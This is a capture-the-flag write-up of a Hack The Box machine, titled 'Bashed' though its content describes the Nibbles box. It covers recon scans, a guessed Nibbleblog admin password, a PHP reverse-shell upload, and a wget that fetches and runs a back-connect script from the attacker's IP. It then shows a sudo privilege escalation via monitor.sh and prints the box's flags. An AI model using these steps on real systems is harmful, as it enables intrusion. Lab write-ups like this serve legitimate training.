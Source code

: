 ```yaml
---
layout: post
title:  "HTB Bashed Linux"
description : Great box, bit ctfish, again SUDO permissions get you root!
tags: HTB, sudo, python
---
```


# Recon
Nmap scan
```ruby
CVEs_10.10.10.75.nmap 10.10.10.75
Nmap scan report for 10.10.10.75
Host is up (0.019s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| vulners:
| cpe:/a:apache:http_server:2.4.18:
| CVE-2017-7679 7.5 https://vulners.com/cve/CVE-2017-7679
| CVE-2017-7668 7.5 https://vulners.com/cve/CVE-2017-7668
| CVE-2017-3169 7.5 https://vulners.com/cve/CVE-2017-3169
| CVE-2017-3167 7.5 https://vulners.com/cve/CVE-2017-3167
|_ CVE-2019-0211 7.2 https://vulners.com/cve/CVE-2019-0211
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Nikto scan privides with soe interesting directories
```ruby
+ OSVDB-3268: /nibbleblog/admin/: Directory indexing found.
+ OSVDB-3092: /nibbleblog/admin.php: This might be interesting...
+ OSVDB-3092: /nibbleblog/admin/: This might be interesting...
+ OSVDB-3092: /nibbleblog/README: README file found.
+ OSVDB-3092: /nibbleblog/install.php: install.php file found.
+ OSVDB-3092: /nibbleblog/LICENSE.txt: License file found may identify site software.
```
Dirbuster scan 
![](https://lh3.googleusercontent.com/O8O6QOXvhgZh9jnKlA59gpgYz-_wPpKX72LRQ9mip9oGFd97gVKhXle1RWT2R_OAWeKcx0NsGzCljG8AbDiwKohjJIbRbWy_rEJAHTHZpwAfMlGMPfnzNg_syKkZRBKv1a2TE3OTM3Pcpe9eZ7S6arENqx_9JISoapDs887w-u4Ol4RpHTVrBp5hhdUZCtjPM0zTzK8uLYz-kZuckxTv-KN-Jb0mQmLGxi7aC3W0UQYTHFR10DOhsqTM9kkIBH-vS34R5WScerokQxCO0Zv5QhA7irPWCVk-MbDy6LSKqymmcnJRPWNdX7T4fwfTCfv0oUScyeYFccHjsuG7D7Ecpb-BqFKagtjlOblpCR5oQ3hMMBWfuIKIK-xxA9isi2e8SZxx2Fep3iCqRQ_JwB1qo7gGGga4dKeRd_FJfvKyX6Um8_Uhe2uheAs2hPb_WomzetzhOEEHiAQW6iGfI_UquAlLfsC_4lHF7vkbPwvTW1WWAsgzm947GcWJAOj3BJRxljxvIYfCFDudCBO4_i0DOPqu0PZu3RkXMD5H-uarDw3GpA-l1OlyYuDNzhKPZhkChPr3ehC8m7JLMNboce1tiVCAmUl_1mAnjRF-ck_lCpYWeGfRs_a55x3wiYYDg6hg3j_atRE1YmoMoDh02Xdjkp8uE48FsnXpbr4X7BJLRZpQKCTjmw1RA4c=w593-h349-no)

Nikto scan
![](https://lh3.googleusercontent.com/9IJ4zVGci7GYTh3uVURd1ZM_yiataJng3rXEl7RZKyOWFspIuQ50oZHNs7TAcMpWUjOTaoPmOLDDlBFHCbuLGJkBgSryNF6j0qzAscU2T-4mxeF6sUoKr3zEAoL2LyrTScXqUp_C9FsaMFDZ312hzHwKNOnb-TdrQORtIeeY--PSRsNl5UkDirblx1bUw1aUz6gafZPt3Dgd-P8dnGEennHwCTqxc3Hr10Dggt3l84XoMu5p4VCEcoh7mAx_Gg0IY7SXyAGek-tpmlL51H4jmVLiL2i2a4eoAEcXJfF4I8X5VPZjtY2Zk3Cknl8wMEqJa1-6uJtqDi8bOx1E-8VUk2RsQNlSMNMjaYO3Dva2gveAHFq-HxJpYeuk2dndIqu2-wKBZtnpqxo5lkCeTovQZZ__ozdTw9TM5B3w1NJb9HVd39uD9k6qa9Q3V377t6m4upXjwtoY_LBOdzqZ5R4F6XTKdaOrQFhmP3nMV1MZyC-16-5O3RkDul3ic5lZpTZFqd6BgCGQZkYR5TjbZSqL12huAmjd-6GgSbOzAlwcyU8qZIV1k23p4kngH8epu0Wjj1yvuYpoD6jxoYu5Gd9yVDrzADgwaujvzqA0XIVZISYTSQTsP1Eu43nl5JQGNzLLddBHKmwMQg3yNRqYa3E1y5Jlbevn948AwvS7TEtLT0mSlTV0-By2-eA=w762-h179-no)

Nibble blog
![](https://lh3.googleusercontent.com/nwvnUxicD_EURq8eFODQ44Xz1REIRhYjmy2bWgKqmMjKMOPZaBk9tPiL1IrSRoIZlWUkiTXM4RMoJcJWCifDJEiPYtyvl8o8ddDHnbuYNyY0ChHZ2IokV-6SjW41QBLsaDzl5SopsfC1AzceKoo9CkV1wl4la5gVgPfRhUE882zQro1HkYemPDXMYxg4yfLdUM5qdQx7GXo0iG2Xm0t_td-jWN-WUjhNiFZQGdrlZU5FFaLlp7FGVBRWXm_-40VaJKYohXPN4YdNuPrxgPwTKAH2h7qgDuMaDMpSZHApDV9sz8Pkw9fu3OG3J2U8pCMS6TYmPHeF4xR7jsrys1walnA5VRDJCQBT--oLLxcjR5Kscz_A6wj4WdvQ-HAKqX4ltPiZPLeP8XlGrgW7pF7yWe5baNVgwLJHwa508llLkp5tdY9OO-bnKv-j12-Z9bdjq0GAperwo2sDH43Ihyb8caNRlwWfPkf_DNl5117wfDqNzQrC24oMDVtQuLjEnWNsmSrMdl81gskQJtDlpEZGl_LnvEz_wK90m-TSg8EEQj0FIOFaPVoLPfM8HRCFu3PVDMM9DixLiIFdSKOjyNuClrS8qHfjjplkcuZRjcMTPegxEr0KWxVbL8dKz0c01UIFeUsTOF8gjI9GGMb-xvwiIyRF2Do6ylA478m8bAVgawDl6EAvXw7YzXY=w618-h464-no)

![](https://lh3.googleusercontent.com/1bW33_11QaosNRFr2BqgoYEaMEIuoJtnOOVjTmlOBY6zRkZeqwzxIElhCdONIlz-GKCf7lJ3tFtrUAvYjPSena-x1tGXJn7ucK4LgTzwXIbaaiFsDEEKCtRgKbTajrIWCRzroAI97Rcx-G1fUKmmRxHK7rKWC5cRt4k2qwe-QDRKUT7xvfMI0DBblhYeIDvAblx9MG4HYblhjOMzcf7OHnXNpkXsRKE0d4wZH9_i1KxF9sj-FrhvYZLhS9HFLwgPQRvmZRHsqCpBke7QAIjqGKaCC-XLnoWTw2qSIDb6B1AzNZSBx_2ZB06YpyBvey3jUVIu7rwMtBgcFI-iwY6gxTdq_KEo2sw9nWhY7MTMaTSsFRHqdKD5IahdFL74hqfsEyz_1ttXeMuLD9ecbEVo8FsvM-VTZ1r-2kisZDE5NfVUsKcyNa1QLJ36qQvl2O0vsX2QC5d0eFhMflCE9iaRwjgBS2StRtSztyepU_-a-T1jUj3ZZgolxkTEXkGwPcm8IqdC4r4LjiqCDlXogsoeixzpsGdsdYCP9V7HxqutlygqBZPcwBTQdGF7E8CBRdTTG6ZOZ9XHnPYflS5jDCBBY-J5IgTMRKyWudrhBMRHP4Vwfi8XvQjPMNv7lrwJfODR3q5r9y_r4VJxB6X0LAZLrsSTPFwNQDG4OLg035j5SLKTTcVcqM6TGAE=w596-h435-no)

![](https://lh3.googleusercontent.com/NWMVhPUxMXwoSCTXW-bYa_JknTOQC_r7Zga3XzqHuC5IG6lEDmQleeFCRuapW1gE6asbIabYozIP6NExfJOOZsRezY6IdteS9BJB-9uis1uj_8YZ9pTBGnvzUdNPpxwhvpJ_6LoI67wDIGY4i3A79_KolWqC-fROUXdirKd056QJyfs0Iwsi4WQokdiSAVAa8_MRTyPlZFT_sEI4WzBbKxWJ2VX6leiM73WW6y8i083axkkiZQRai09cVaGh5MQc33rIKqLHk-QVnaIRybeqk4yedesvOmNFL7tjyNAkfADfzW52QX-ePUCMg8Joo9-8FWqLCS1hPU7nB-XvtOJqICj3MfBeJYo8KfNJyF5Sb2zUlQXijhNjil0bReMWLN_3e7ReXECg0mY9Q9TdLzWurEBm_8ux6sr3OaTDyAqfrQBtKltggsTPD0I1E158KHvo_jdmJ5C_7s-D5Ffpv1vMt9BoA9up3InQfbU5uwBxq8GdaadRTcOh3LNpRMrEevd3kME9_AgzT59o-RHNR6TDmH-x3IeBqd9agn_u0ba4hL2eADBbx1Aj8PBXem8jZdv3FWbxQ9CUydvTYGBaEOyMtkC6fJt5PAoVGsNWs1OBSw5o0Z2Cypj-PvDcBnJVEib7KRZ1WjbgSf3h43pYDaOe_y-am-TO5fpc3qJgUBop2S-EXcdCRxCGPI0=w525-h146-no)

![](https://lh3.googleusercontent.com/F3rZsw8bA2d1mBitjHMjBOeFIQUW-fI8ZImbHJof21FMBcuvWr_rDjxuM0oNnR24Yje-VRQVbwSTzNH69Y9B5X_46X4cr3GIr-XT5aq8jeaoZXcgsZfu1H4e7PAUdGtL_HXygiv7Y1GOxQMebZP9zwWcGCZd940H1xH1RJBEp-k6Cq9JCgzsn5zSIaj_DPq0EVwovyUKUO2jiGXKLUkB3cRbRdnhC3mag40YN9xphnEdAUjlhtyZvoF358P36WyNGEu9J1A6CBn3PlGKedwczqBuafjuJgM9nuhXrbt-Qmg5EKX51Z08Ah7v0_C8N5I15MOKyaOZH0qK_ThvEfuHQq8B-A02OXbq8vx_XTIgXjdDdtDGHvyKTCQxVrqMHCNU9_rCY7u8vtmG-87EdJEiN5eF4arhlvwJgSLMFkPcAacBMHIoR7hV86LTF67yYtM6HOUizej8G3tBCvW5bUnSRm7wxzG5rdvFXnYirQ9Gq9k914USrU15jG3y3cnkXG6YslYB2ZMWJtNHe3idT7titmVcLJwqEqG_uSZavBOkCcR9el0eEurzDIre5i439gTXBTYR-Pn4ZYTMVIHVnTq0N3pxRpxre8opS8e0vmn5zbTzIN8up6DQhykprM-3G8FY45vfxINERdl6ATmRgj7psGxhPzNCt9U5cpvqpVpIYGJ-1R6Q71Yp_hY=w724-h323-no)

![](https://lh3.googleusercontent.com/fOx1G3In-Usf9XZJ0qlKuc3I_il-HRkAtdSATS4GZDXk_8rD2xuCpGvi-B5o5iigwTLmUhaH7SdZdALu_oElOfU1nyFDbdPyM8w-qCUiTVKoEEZXMRNhouCRMUSQCg7klZcHbZWDo6_KI60ylkyPrbpHUxBvDoTSFRsBb-CX-h8O4IKPYyjhsnAsr9WxzgPFo1nfsouCa2MDyg-eTjTbgkZJI7c_dWGIxDibBVeKe7mSsgxakMMjOgHVpjc1xonFBn30vrR-Bc__0JnZJdcrV6rXn-i7lYqO2TNJpczYjcIJ7cTz__TjVST0ehm2iogDIgdntKzVg7mX_avsvpM8-Bz1SVhB-uOt9eVaEgckqEZFg43aJiARovdH7OAHKnR4H2V61FIf2X9F90ZX0PxCC_s_QgL1vqYtbIlnlLVCj9e3ZgOYAJnodHl9EEIGoKXB6JAgXTMknNx5gCDjSNqzJLyK5ustrPn_tIXuSpz3zQcgQk7Cnk8rq-M_rjokC89y8HkcbSKnq5Va3_f1v-BCunbvgFEEMvvxaefo5z75NIJzkD_YaIHYP1GvMhCsui3U2MiAJL9YXEsikAVEofU0SsXt20M8gO8q0OG-8UJ2Eiu4I1CFM7HTJg6axLa57zkZDX-QYmKf9-5topWjEjxyAM8Mo4EPb_wYrjdRp63xBottdLpjWSlb3i4=w669-h410-no)



# Exploitation
Nibbleblog 4.0.3 is vulnerable to Arbitrary File Upload. 
I tried bruteforcing the admin password with Hydra but not luck there. However I was successfull guessing the password: **nibble**
![](https://lh3.googleusercontent.com/NlJDIz-Zraqt9x2fKnDqAHrfAzGI7ofO5eZFB_phUoFUyq-wpb5t2Hy815htdpa4MB1z-ED8E1iT_K70z8Ve0J3VaOo3ZUsxCBR4pivGDvBOelsxnPnahfVhxEmvptC4u-2Y5yojC90AB2Td_YpZ10CNDzaPRERdjsUMt4_T6_tN1HPoEeAbkQpBfCAZia315vnPCp_YZexAF4EHBLWWgf0zvKuq7bpatff8IMg_Tztq-sXiulAYsnijjNsFldvM_a9UF2yFN-SPD33F2do9dxl2PHhS8Zb_fr4kORGjC6L5vR9XUQWlBVJFBEMKc3xXjqu6W39dtMJOQ-MNwdaowwBB5a4M346XfWPZNSuzmlIT9W5nPGVDYfI2qD1r8ym74d_SYiBZARJLhov7HNKc7cGmLBR2zQ4iIefUAD0tp6XBS--wmCqvl4WKBWGztgY4wyaCKAKA2xF3CL5O8rUi-u_HNFGG1Orhs9xkjODWNyjbTf623Ak8LlQrhBjluxscQ_Fq5Bcfsl8jW9T5EHulOHVSLBGYqXtbXN7gbTD2J8y2NSnnBfaRLGw2pfOkVYyxG7WO5XXr65RzWBfpzbrBWcNnge4C0UdiIG-Xuc1W2tIcyQff7wp5PMWgVzcQ-EwmKiAZOYA1nH-FtCJQZ_rspSL93QIdoMLqxuzgKbIUdmxcvLEmDYCvNe8=w808-h328-no)

We upload a php reverse shell, under the tab **plugins** and get user shell as nibble
![](https://lh3.googleusercontent.com/_D4O8HUsMsAphI1npaL4FcaBSLBEHTg39_6Vf_O_Ba4ymwVJBUQ9yt9nzPI8xDp8cXcY18TsD6822nAKPFallJsxzqgmigSdeh32hUWfDXDFpI8QoEd69ny6qRAbsC9eXw1ERRKBgzgoaTsVCsCc-8vg9R1mCb9OpIXAawpD3OncpbUCoclbi3ZNpGaDx6HAYQxuJuwqTo1UEOs8tACf_IOnrR-4DOBNo2jMec1uZIe4yHQogl0JETtije5j5QqE1LnG9QGZtTl8C2BcbW8Jh7aZzp_LMWtX1gbAXqW69cprrSnY-70jjmBNTZyi0of4ffIHTbvEvNx6FDRvglN1KsfT7A52yhiyWZda6QWD1uBHaEMz02AsziDFYY4T5rOS3VPYpex6WQN8Dg4DUkF4BmGhSCKCKaXJoMgNlV5qAIS2xov_GR0X7IfqGKWEgBXVKQ-POPOJxJYTCYKT5PKkQWnZgnVBfigi4h6GpyeeBI7HBfjZIQmRZd50lKKXFPBVPjQ0h9IBfOs61y9JYS6pisAjP2T4OlJfw0f4wJC6IlwVnAmW7u2FTOL3dyYTwkdzGVgL3h7tM7wAiChZ7jmujcGQjQKjvhGF2uxnwXw1_cfDfT9hfm8Jp_bQxvF9o-w7zp-JuUB7zF6TpL8WPopY0VRH_nKEJXAU76rjKaCdErHkIII4_qJD_bk=w583-h392-no)

![](https://lh3.googleusercontent.com/lBLMPxKTGghiCh-1UCk_5U1tVeZSusNgCo0-a-yBxBMQhPSTje-psP9sEQEFuu2pz1zpSeOyKWJIsBHZ2pScLEfUye8voqlICnAe-NFyMhNqhanT1oIhPlrT8vQnjTG0DRC7264-QgU_mtKwD7AA_Qjcpy8jdgeUq-pDayV31KXVWG_OK65Zk6FDLGqyizZcN8jtzWH78GSw4d_RmLvu_sgjbZpwuiyeKLUAGehOSzfYJuGwpjMAVWqLE2ni-1FbKKAR-6ub4pqBw9CvFzXCqTowd5YspfGfwiXNRORbvoY2YfzKYxnvyj1Eisa9G-Sfb8idCV59-pDvru_D7Mu7S6lZc7qf2AyzmiK6Rq_ep5pUE7ShfQGPqikLERGcc9uOYuQeDNsQgbq-L-uc3ld1-g6HR3WUQVcPSOxcYRnUrDPJb6TwLwE-zJ9Xh8itL4sD3PA8_xP0H9_EjkZP1WDNftJiXr5DsWxuGPzNGi85o6bT1cUoNRt0Z4KK3C5M86RP8Z69e02B8Q-RZPhYI-6knB11W9eRvw5OR9SrpqJ1UNkx9TwEOdHQ_FvVXSxpu2bYn4d_hS60gZxwVQ_sENBU5tOJyJStPgaaspwnJNwIASTe9Tn0_6G6IClgIkEULNG_q4ANIaBsIxL1n_AjufeZSvuvzI_kloUY2lGhZc9fuFdL-gz-ZTXE9Yk=w624-h250-no)

Shell is limited so we spawn a python shell
```ruby
wget 10.10.14.25/tcp_pty_backconnect.py
python3 tcp_pty_backconnect.py
```
# Privilege Escalation
We run LinuxEnum script and we got our potential priv-esc path
```ruby
[+] We can sudo without supplying a password!
Matching Defaults entries for nibbler on Nibbles:
 env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/
bin\:/sbin\:/bin\:/snap/bin
User nibbler may run the following commands on Nibbles:
 (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
[+] Possible sudo pwnage!
/home/nibbler/personal/stuff/monitor.sh
```
![](https://lh3.googleusercontent.com/z0A7qNJRe-dEl30SnhG4rqTUSRiIYABrbsqfeWyax9VwL9OS_EGSiob92gvjCarf9ty2BpcOMJPxfPsBtFqqtvwLDV_zWFG3BvlrWCIqRPm-r8DCAK1z0E8_YflgoiuUSRCG2p02iV0ZdhXHE2eNjS8QfXdXSktEAiY540_EjwN2w16JxIpyC3jO2MpXIntOggxVgSrT7VPE4gLwiK3asSef10K2JpWDUmpBMjj9954oFF9IaSIuHyQyO-PF_54Ah0Tbft5rfKltEOOIitl87AmUR-s0RRQxsH4itrMBnKrtUv2HuXPUM2omf1jDVsRWk8knfspQxp1C9wKFjzr9azORMxd4yYSedqFHohrnfbz04iaZp2EaAgbxm5BQW1_iJmAqjAQ5ypAC0BRZhcePLAltZQGpNH21ZDEzzSbG7qeZ9v7okA5jMYJuZd9_zEia39jRZOgl5Tuo1QooUttoGN_XOrY2hOgyoI0fhCayyAhIgEgDJAHCH1Iof2MPrur9ZUl5fTjSub-URALSouaZRPQkbZ49Wk4UDHx0-pv9spG1Z13cYC45Ln2DmptFJLMuzoI_0UY-HZtj6v79QIc49MopnDRsVv2swDl7epr1ncqwX0__VZjxwRefNaorA3YhLj-PKuiRdQNw0ktzADTRY4vERU4R1K7m6oZCVsqq-2EPH29Q4_q1Se0=w609-h211-no)

First we mkdir the /personal/stuff directory and the we create a file called monitor.sh
![](https://lh3.googleusercontent.com/Sg65rie17x6YoZ_7knoSMAqWDJoVf2pA9DAkrv2RKN-vNlpjjmr-Rn4oBRV1Ahv1NXflHftx06L4mVbA7l_pwYQmTKcecKWVtKxe3jBReF_BlOW3mXOggehd8jW2FPD3qXJD7umK0_-pHTT7aHJyItTOCRXVk5vNQsmpNQ7iX4GA5u4UtZQF3yuTHv5ldKd0AX5JJ79-cp3p89aFaeStq7BWErdLx198S8SAC0ZNP0JcoFNUayY1Eq271waWrWPR4zXPIc3xcYq7k2IqJ2SAMfnK7qteneDLZfC96Z3Eq7i19lvx9-6kELTKk6QPwsHNhNU-2g6WrJVsynVq5npk-gvjSERmQ14Y3cnIYKvmvW0DiwPC8zzj-Ozz159mKuVXHgnzoIJEVbBdGkzeyGJFatGL4R9oS50rQwbDbn9VzlI8VJEddUis8YGMp7MrDPE5LM9SaHRNTzQh8tJ8hmg-3BGT5RCKWxbJGYNf70Yx90hUvfBrK6jGwKoFGjYoxdqede9tqxa91YUMzOYXLzg2k-PwlTHDzLIORwoYViHXX1GPjh81V3aOecD9J-WSk1asTCryvbOTAGqbiJvIAgk3XDFIWi-FVoXiBGM93OjH8Byq7KPCoTTLo_krWC12Obge2PO55tRnOh0WkObpHFZUW2P-ixwSqkyAdcdRMruGavHxQeT8sDXxJyQ=w627-h46-no)

We echo "bash" to monitor.sh and chmod it 755 and we procceed to run it as sudo and finally we got root
```ruby
sudo ./monitor.sh
```
![](https://lh3.googleusercontent.com/Fv8tYFmskENU5qCUgqUCUE6JItSeqH3y7Gny6R31Xti599zW3h8rtqRBywCRxxwYqJpHMBMBQh23MBQWS5bO992GbEx8piXZtyDFsUPW1JRKdQheG_-xPl4kkFJCjjyeJNA_s6S9AcyxD-bboovd96VkFMaqBBt4Zn8WcAGqHLobtLuj0MnqTzJ4tbvM_80bnq743iuNwgifhg0xcRj_QNUxzXiHNyLxh6Dj_KnoTmeyw6BZGaY0UafTwrFs5-SNfLbLxGyPSyv-IcK1iguW1mV8edOmKcu8N-91JBSyvnBItqFBntdK16EuJp-ai7IaSELUGtDYFVPZSq5Ep7OKNkf4QFDgeRyf2WYp7VbVdbq3vAmYFTftpYv0ubnlXZaoOn8MWxBEZIIfO1y5uvVy-YEC6lNEp9ouIvsK3AOfrI-3QY3ks4JRBnntgz3l8Qg0_ZI-rTsndd6zo9Q44JhEyf0ar-IqpvLboxXRonA7EUQzHQ6walNQQZ4gkKYMtJvcQlG1x2je7ODhEgrrwJZNogcyxHiE9yT9Wp_iPqI5JSwndB5dY0JIyEkw6o0GbBDDuqnpxlUvvMeHE-Y3rrVF_3DgNUBtsMHv5epcc0KB4A9pnRa2mogwzEqcGjioH-HK88mXeJ32Lxdzd3rVYek8VuXVEueCbdIbdzOsiapgSbw1AI5jYMDQt2A=w708-h99-no)

```ruby
 ROOT  "b6d745c0dfb6457c55591efc898ef88c" 
 USER  "b02ff32bb332deba49eeaed21152c8d8"
 ```
